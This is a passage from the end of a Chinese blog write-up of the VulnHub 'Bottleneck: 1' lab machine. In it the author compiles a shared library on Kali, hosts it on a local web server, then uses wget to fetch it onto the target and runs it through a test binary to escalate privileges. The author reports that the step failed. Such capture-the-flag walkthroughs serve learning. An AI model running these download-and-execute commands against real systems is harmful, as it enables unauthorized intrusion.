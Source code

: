 由于在靶机`shell`下不能使用`gcc`编译，因此我另开一个窗口编译好了

再在靶机`shell`里下载脚本赋予权限执行，操作如下

`kali`的终端里

```
vim soapffz.c
gcc -shared -fPIC soapffz.c -o soapffz.so
service apache2 start
mv soapffz.so /var/www/html/
```

![][22]

靶机的`shell`里：

```
cd /home/bytevsbyte
id
wget http://192.168.1.6/soapffz.so
chmod 777 soapffz.so
/usr/test/testlib /home/bytevsbyte/soapffz.so
```

我这步一直失败，不知道什么原因(和.c 和.so 文件的名称是无关的)：

![][23]

不知道有哪位大神能给我指导一下。。

参考文章：

- [write up Bottleneck: 1 vulnhub][24]
- [VulnHub 靶机系列实战教程][25]

本文完。

[1]: https://www.vulnhub.com/entry/bottleneck-1,374/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200649.png
[4]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200527.png
[5]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201035.png
[6]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201138.png
[7]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201713.png
[8]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201746.png
[9]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201939.png
[10]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_205021.png
[11]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_193531.png
[12]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_194854.png
[13]: https://www.secpulse.com/archives/75491.html
[14]: https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
[15]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_195221.png
[16]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_200012.png
[17]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_202403.png
[18]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_203027.png
[19]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204015.png
[20]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204125.png
[21]: https://github.com/jivoi/pentest/blob/master/shell/rootshell.c
[22]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_211656.png
[23]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200117_210048.png
[24]: https://ischizo.com/write-up-bottleneck-1-vulnhub/
[25]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ
